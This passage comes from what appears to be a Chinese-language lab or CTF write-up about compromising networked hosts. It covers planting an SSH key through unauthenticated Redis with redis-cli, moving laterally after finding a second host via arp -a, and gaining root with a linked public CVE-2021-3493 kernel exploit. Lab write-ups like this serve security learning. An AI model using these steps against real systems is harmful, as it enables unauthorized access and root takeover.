 使用工具rce失败

#### 公私钥认证

在攻击机上生成密钥

```
ssh-keygen -f hacker
```

将生成的密钥内容保存到本地hacker.txt

```
cat hacker.txt | redis-cli -h 192.168.14.247 -x set xxxx
```

![web1-redis](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/PIcGoweb1-redis.png)

通过设置路径等操作，成功shh连接对方主机，并且也不在docker环境内，为root权限，看下这台机器的信息

![web1-ubutun18](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/PIcGoweb1-ubutun18.png)

两个网段，192.168.52.0,版本为ubuntu18,重新回到上一个漏洞，利用存在用户写密钥的方法进行shh连接，在web1生成公钥

```
ssh-keygen -f hacker
```

并将生成的公钥上传到我们使用docker挂载到目标主机的ubuntu用户的/.ssh下，问题是我们怎么去找到web2的真实ip,很简单，通过

```
arp -a 
```

查看表

![web1-arp-a](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/PIcGoweb1-arp-a.png)

能够看到web与这台机器有过联系，利用ssh去登录web2

![web2-first-step](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/sunrise7/web2-first-step.png)

成功登陆后查看该系统的版本信息，以及主机有无信息

```
Linux ubuntu 4.4.0-142-generic #168~14.04.1-Ubuntu SMP Sat Jan 19 11:26:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
192.168.52.20
192.168.93.10
```

#### CVE-2021-3493内核提权web2

```
https://github.com/briskets/CVE-2021-3493
```

从上地址下载poc,上传到web2上编译执行获得root权限

![web2-root](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/sunrise7/web2-root.png)
